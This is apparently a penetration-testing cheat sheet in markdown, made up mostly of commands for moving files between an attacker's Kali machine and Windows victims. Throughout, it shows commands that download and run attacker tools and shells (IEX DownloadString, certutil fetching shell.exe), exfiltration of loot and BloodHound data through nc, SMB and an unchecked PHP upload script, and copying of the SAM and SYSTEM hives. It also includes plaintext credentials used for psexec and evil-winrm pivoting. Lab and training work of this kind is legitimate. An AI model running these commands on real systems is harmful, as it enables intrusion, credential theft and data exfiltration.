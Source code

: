 # Transferring Files

https://github.com/eMVee-NL/MindMap/tree/main/File-Transfer


Nothing is 100% bullet-proof. This is why I have several options to accomplish this.
1- As already mentioned, impacket-smbserver -smb2support test . is gold.
2- python -m pyftpdlib -w will spawn a ftp server on you kali. use the ftp command on windows to transfer the file(s).
3- On Kali: nc -lvp 4444 > TransferedFile on Windows: nc.exe <kali_ip> 4444 -w 5 < FileToTransfer
4- Using powercat + powershell. Host powercat.ps1(link: https://github.com/besimorhino/powercat/blob/master/powercat.ps1) in a webserver on the attacker machine. Execute powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://kali-ip/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoTransfer" On kali: wget http://windows-ip:4444/FileToTransfer
5- Host the below php on a php-enabled webserver on kali:

<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

Use a webbrowser on the victim to access the page and upload the desired file or use the below powershell to accomplish the same:

powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:8888/upload.php', 'bloodhound.zip')


sudo systemctl apache2 start
sudo php -S 0.0.0.0:80
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.45.178:90/upload.php', 'bloodhound.zip')

### Powershell Linux to Windows

```bash
(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:8000/chisel.exe','C:\Windows\Tasks\chisel.exe')
```

### SMB Linux to Windows

```bash
impacket-smbserver -smb2support Share .
cmd.exe /c //kali_ip/Share/shell443.exe
```

```bash
/usr/local/bin/smbserver.py -username df -password df share . -smb2support
net use \\kali_ip\share /u:df df
copy \\kali_ip\share\shell443.exe
```

```bash
impacket-smbserver -smb2support Share .
net use \\kali_ip\share
copy \\kali_ip\share\whoami.exe
```

### Windows http server Linux to Windows

```bash
python3 -m http.server 80
certutil -urlcache -split -f http://kali_ip/shell.exe C:\\Windows\temp\shell.exe
```

```bash
Invoke-WebRequest -Uri http://10.10.93.141:7781/winPEASx64.exe -OutFile wp.exe
```

#### Transfer Files with NetCat

On your computer:

```bash
nc -l -p 12345 > received_file
```

On the remote computer, Windows in this case:

```bash
Get-Content .\yourfile.txt -Raw | nc.exe <Your_IP_Address> 12345
```

#### Errors

```bash
Access is denied. In this case try Invoke-WebRequest for powershell
```

#### Host Simple FTP Server

```bash
python -m pyftpdlib -w
```

### SMB Shares Windows to Windows

```bash
In this situation we have logged onto computer A
sudo impacket-psexec Admin:'password123'@192.168.203.141 cmd.exe
C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.203.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.203.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.93.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   
 Via Computer A we pivot to Computer B (internal IP) with these creds
 proxychains evil-winrm -u celia.almeda -p 7k8XHk3dMtmpnC7 -i 10.10.93.142
```

#### Accessing $C Drive of Computer A

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> net use * \\10.10.93.141\C$ /user:Admin password123
```

#### Copying over files

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SYSTEM Z:\
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SAM Z:\
```

### SMB Server Bi-directional

```bash
impacket-smbserver -smb2support Share .
smbserver.py -smb2support Share .
mkdir loot #transfering loot to this folder
net use * \\192.168.119.183\share
copy Z:\<file you want from kali>
copy C:\bank-account.zip Z:\loot #Transfer files to the loot folder on your kali machine
```

#### Authenticated

```bash
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

```bash
impacket-smbserver -username df -password df share . -smb2support
net use \\10.10.16.9\share /u:df df
copy \\10.10.16.9\share\evil.file
```

#### Host an Apache Web Server

```bash
sudo systemctl start apache2
cp file.txt /var/www/html/
# You can access the files on port 80 of your machine/ip
```

### PHP Script Windows to Linux

```bash
cat upload.php
chmod +x upload.php
```

```bash
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```bash
sudo mkdir /var/www/uploads
```

```bash
mv upload.php /var/www/uploads
```

```bash
service apache2 start
ps -ef | grep apache
```

```bash
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:9999/upload.php', '.\dc_20240822153055_BloodHound.zip')"
```

```bash
service apache2 stop
```

Uploading files with TFTP.

```bash
root@kali:~# mkdir /tftp
root@kali:~# atftpd --daemon --port 69 /tftp
root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
```